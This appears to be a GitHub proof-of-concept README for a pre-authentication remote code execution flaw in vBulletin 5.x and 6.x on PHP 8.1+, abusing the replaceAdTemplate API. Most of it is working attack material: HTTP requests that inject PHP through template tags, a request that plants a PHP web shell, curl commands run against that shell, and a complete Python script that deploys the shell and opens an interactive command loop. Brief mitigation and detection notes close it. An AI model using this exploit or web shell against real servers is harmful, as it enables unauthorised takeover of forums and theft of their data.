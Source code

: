 
# vBulletin replaceAdTemplate Remote Code Execution POC

**Author:** Chirag Artani
**CVE:** N/A (N-Day vulnerability)
**Affected Versions:** vBulletin 5.x and 6.x running on PHP 8.1+
**Severity:** Critical (Pre-authentication RCE)

## Vulnerability Overview

This vulnerability exploits a combination of two security flaws in vBulletin[^1]:

1. **PHP Reflection API Misuse**: vBulletin's API controller allows calling `protected` methods via `ReflectionMethod::invoke()` when running on PHP 8.1+
2. **Template Engine Code Injection**: The template parser can be bypassed using variable function calls to execute arbitrary PHP code

The exploit chain targets the `vB_Api_Ad::replaceAdTemplate()` protected method to inject malicious templates that execute PHP code through vBulletin's template conditionals (`<vb:if>` tags)[^1].

## Technical Details

### **Root Cause Analysis**

The vulnerability stems from changes in PHP 8.1 that allow `protected` and `private` methods to be invoked via the Reflection API. vBulletin's API controller uses `is_callable()` to check method accessibility, but this function returns `true` even for `protected` methods, allowing execution to continue to `ReflectionMethod::invokeArgs()`[^1].

The `replaceAdTemplate()` method accepts user-controlled template content that gets processed by vBulletin's template engine. By using variable function calls (e.g., `"function_name"(args)`), attackers can bypass the template parser's security regex checks and execute arbitrary PHP functions[^1].

## Proof of Concept

### **Step 1: File Write Operation**

Create a simple text file to verify code execution:

```http
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 153

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=3444&template=<vb:if condition='"file_put_contents"("hello.txt", "Hello World!")'></vb:if>
```


### **Step 2: Directory Listing Verification**

Confirm file creation and explore the web directory:

```http
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 127

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=3444&template=<vb:if condition='"print_r"("glob"("*"))'></vb:if>
```

**Expected Response:**

```
Array
(
    [^0] => LICENSE
    [^1] => ava
    [^2] => config.php
    [^3] => config.php.bkp
    [^4] => core
    [^5] => customavatars
    [^6] => customgroupicons
    [^7] => customprofilepics
    [^8] => favicon.ico
    [^9] => fonts
    [^10] => hello.txt
    [^11] => htaccess.txt
    [^12] => images
    [^13] => includes
    [^14] => index.php
    [^15] => js
    [^16] => logs
    [^17] => ocp.php
    [^18] => opcache-gui.php
    [^19] => opcache.php
    [^20] => signaturepics
    [^21] => useralbums
    [^22] => userfiles
    [^23] => web.config
)
```


### **Step 3: Web Shell Deployment**

Deploy a persistent web shell for command execution:

```http
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 189

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=3444&template=<vb:if condition='"file_put_contents"("shell.php", "<?php if(isset($_POST[\"cmd\"])) { echo \"<pre>\"; passthru($_POST[\"cmd\"]); echo \"</pre>\"; } ?>")'></vb:if>
```


### **Step 4: Command Execution**

Execute system commands through the deployed web shell:

```bash
curl -X POST http://target.com/shell.php -d "cmd=id"
curl -X POST http://target.com/shell.php -d "cmd=whoami"
curl -X POST http://target.com/shell.php -d "cmd=ls -la"
```


## Automated Exploitation Script

```python
#!/usr/bin/env python3
"""
vBulletin replaceAdTemplate RCE Exploit
Author: Chirag Artani
"""

import requests
import sys
import urllib.parse

def exploit_vbulletin(target_url):
    print("[+] vBulletin replaceAdTemplate RCE Exploit")
    print(f"[+] Target: {target_url}")
    
    # Step 1: Deploy web shell
    shell_payload = '<?php if(isset($_POST["cmd"])) { echo "<pre>"; passthru($_POST["cmd"]); echo "</pre>"; } ?>'
    template_payload = f'<vb:if condition=\'"file_put_contents"("rce.php", "{shell_payload}")\' ></vb:if>'
    
    data = {
        'routestring': 'ajax/api/ad/replaceAdTemplate',
        'styleid': '1',
        'location': '3444',
        'template': template_payload
    }
    
    try:
        response = requests.post(f"{target_url}/ajax/api/ad/replaceAdTemplate", data=data, timeout=10)
        print(f"[+] Shell deployment response: {response.status_code}")
        
        # Step 2: Test shell access
        shell_url = f"{target_url}/rce.php"
        test_response = requests.post(shell_url, data={'cmd': 'id'}, timeout=10)
        
        if test_response.status_code == 200 and 'uid=' in test_response.text:
            print(f"[+] Shell successfully deployed at: {shell_url}")
            print(f"[+] Test command output:\n{test_response.text}")
            
            # Interactive shell
            while True:
                cmd = input("vBulletin-shell# ")
                if cmd.lower() in ['exit', 'quit']:
                    break
                
                cmd_response = requests.post(shell_url, data={'cmd': cmd}, timeout=10)
                print(cmd_response.text)
                
        else:
            print("[-] Shell deployment failed")
            
    except requests.exceptions.RequestException as e:
        print(f"[-] Request failed: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 vbulletin_rce.py <target_url>")
        print("Example: python3 vbulletin_rce.py http://target.com")
        sys.exit(1)
    
    target = sys.argv[^1].rstrip('/')
    exploit_vbulletin(target)
```


## Mitigation

1. **Immediate Actions:**
    - Update vBulletin to the latest patched version
    - Implement Web Application Firewall (WAF) rules to block malicious template injection attempts
    - Monitor for suspicious API calls to `replaceAdTemplate`
2. **Long-term Security:**
    - Regular security audits of custom API endpoints
    - Implement proper input validation and sanitization
    - Use allowlists instead of denylists for template validation
    - Consider running vBulletin with restricted PHP functions using `disable_functions`

## Detection

Look for the following indicators in web server logs:

- POST requests to `/ajax/api/ad/replaceAdTemplate`
- Template parameters containing `<vb:if condition=` with function calls
- Unusual file creation in web directories
- Suspicious PHP function calls in template content

This vulnerability demonstrates the critical importance of proper access control implementation and secure template processing in web applications[^1].

<div style="text-align: center">⁂</div>

[^1]: https://karmainsecurity.com/dont-call-that-protected-method-vbulletin-rce

[^2]: https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-vbulletin-pre-auth-rce-vulnerability-cve-2019-16759/

[^3]: https://www.authentic8.com/blog/vbulletin-5-0day-from-imperfect-patch

[^4]: https://community.f5.com/kb/technicalarticles/vbulletin-pre-authentication-–-remote-code-execution-cve-2019-16759/283751

[^5]: https://unit42.paloaltonetworks.com/cve-2020-17496/

[^6]: https://x.com/Dinosn/status/1926835589111791894

[^7]: https://cloud.projectdiscovery.io/?template=CVE-2025-24813

[^8]: https://www.sentinelone.com/blog/vbulletin-cve-2023-25135/

[^9]: https://www.exploit-db.com/exploits/38629

[^10]: https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/vbulletin-remote-code-execution-cve-2020-7373/
